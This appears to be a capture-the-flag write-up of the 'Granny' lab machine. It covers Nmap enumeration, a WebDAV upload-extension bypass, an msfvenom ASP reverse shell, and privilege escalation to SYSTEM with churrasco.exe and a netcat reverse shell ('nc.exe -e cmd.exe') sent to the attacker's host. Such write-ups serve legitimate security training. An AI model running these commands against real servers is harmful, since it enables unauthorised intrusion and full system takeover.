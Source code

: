 # Granny

## Overview

Looking at the box we find a webserver on port 80. Investigating the webserver we find that the server implements a WebDav service. Looking into this we find that we can upload and move files on the webserver. After uploading a reverse shell we get access to the server. Moving on, we find that the user we have on the machine has the SeImpersonatePrivilege enabled. This privilege can be used to escalate our privileges on the machine to System. 

## Enumeration

Doing an Nmap scan on the host shows that only port 80 is open. Using Nmap we get more information and find out that it is a webserver.

```bash
sudo nmap -p- 10.10.10.15 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 16:55 EDT
Nmap scan report for 10.10.10.15
Host is up (0.019s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 118.19 seconds
```

```bash
sudo nmap -p80 -sC -sV 10.10.10.15 -oA nmap/info
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 16:57 EDT
Nmap scan report for 10.10.10.15
Host is up (0.018s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Tue, 25 May 2021 21:01:00 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
```

## Getting user

### Tools

Based on the methods from the above Nmap scan I eventually investigate the webserver using a tool called ```davtest```. This tool can be found [here](https://code.google.com/archive/p/davtest/downloads). Using this tool we find that we can upload files with certain extensions. Another capability of a WebDav service we can move files on the server. Using a tool called ```cadaver``` we can interact with the WebDav service. Cadaver can be installed from the repo using ```sudo apt install cadaver```. 

### Exploiting

Using davtest we see that we can upload files to the server. However, there are only certain extensions that we can upload. Below is the output from davtest.

```bash
cat davtest.out
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: sTWUtSJ
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_sTWUtSJ
********************************************************
 Sending test files
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.php
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jhtml
PUT     asp     FAIL
PUT     shtml   FAIL
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
PUT     aspx    FAIL
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.pl
PUT     cgi     FAIL
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jsp
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.cfm
********************************************************
 Checking for test file execution
EXEC    php     FAIL
EXEC    jhtml   FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
EXEC    pl      FAIL
EXEC    jsp     FAIL
EXEC    cfm     FAIL

********************************************************
./davtest.pl Summary:
Created: http://10.10.10.15/DavTestDir_sTWUtSJ
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.php
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jhtml
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.pl
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jsp
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.cfm
Executes: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
Executes: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
```

In order to get a shell we first use msfvenom to create a reverse shell. This shell will be in the ```asp``` format which is a format that a windows server can execute. 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=8000 -f asp > shell.asp
```

Once we have the shell ready we can connect to the server using cadaver. However, we can not directly upload an asp file. Therefore, we upload the file as a txt file. This is done by simply renaming the file. After uploading the file, we move the file on the server making it a asp file. Once the file is moved we navigate to the file and get a shell.

```bash
cadaver http://10.10.10.15
# Upload the shell (as a txt to be allowed)
dav:/> put shell.txt
Uploading shell.txt to '/shell.txt':
Progress: [=============================>] 100.0% of 38211 bytes succeeded.                                
# Move it to asp to get code execution
dav:/> move shell.txt shell.asp
Moving '/shell.txt' to '/shell.asp':  succeeded.
```

## Getting system

Using the ```whoami /all``` command we can see the privileges that we have. 

![whoami privileges](attachments/granny1.png)

Looking over the privileges we notice that we have the ```SeImpersonatePrivilege``` which is what we can use to escalate privileges. One way to escalate our privileges is to use [churrasco.exe](https://github.com/Re4son/Churrasco). This program exploits the privilege and then runs a command that is given. In this case I uploaded a copy of nc to the server and used that to send back a reverse shell. 

```bash
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.18 8001"
```

At this point we are an administrative user on the box.
